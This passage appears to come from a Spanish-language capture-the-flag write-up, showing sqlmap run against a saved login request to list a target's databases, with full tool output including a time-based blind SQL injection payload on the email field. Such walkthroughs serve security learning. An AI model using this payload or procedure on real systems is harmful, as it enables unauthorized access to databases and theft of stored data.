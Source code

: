 Vamos a enumerar las bases de datos, para ver cuáles encuentra (`--dbs`):
```bash
sqlmap -r loginRequest.txt --batch --dbs
        ___
       __H__                                                                                                                                                                                                     
 ___ ___["]_____ ___ ___  {1.8.9#stable}                                                                                                                                                                         
|_ -| . [)]     | .'| . |                                                                                                                                                                                        
|___|_  [.]_|_|_|__,|  _|                                                                                                                                                                                        
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                                     

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 18:59:00 /2024-10-14/

[18:59:00] [INFO] parsing HTTP request from 'loginRequest.txt'
[18:59:00] [INFO] resuming back-end DBMS 'mysql' 
[18:59:00] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: email (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: email=test1@test.com' AND (SELECT 2081 FROM (SELECT(SLEEP(5)))LEKh) AND 'Jmin'='Jmin&password=test123
---
[18:59:01] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12
[18:59:01] [INFO] fetching database names
[18:59:01] [INFO] fetching number of databases
[18:59:01] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)                                                                                  
[18:59:04] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
2
[18:59:16] [INFO] retrieved: 
[18:59:21] [INFO] adjusting time delay to 1 second due to good response times
information_schema
[19:00:30] [INFO] retrieved: main
available databases [2]:
[*] information_schema
[*] main

[19:00:44] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/10.10.11.130'

[*] ending @ 19:00:44 /2024-10-14/
```
Ahí están las dos bases de datos, pero la que nos importa es la **BD main**.
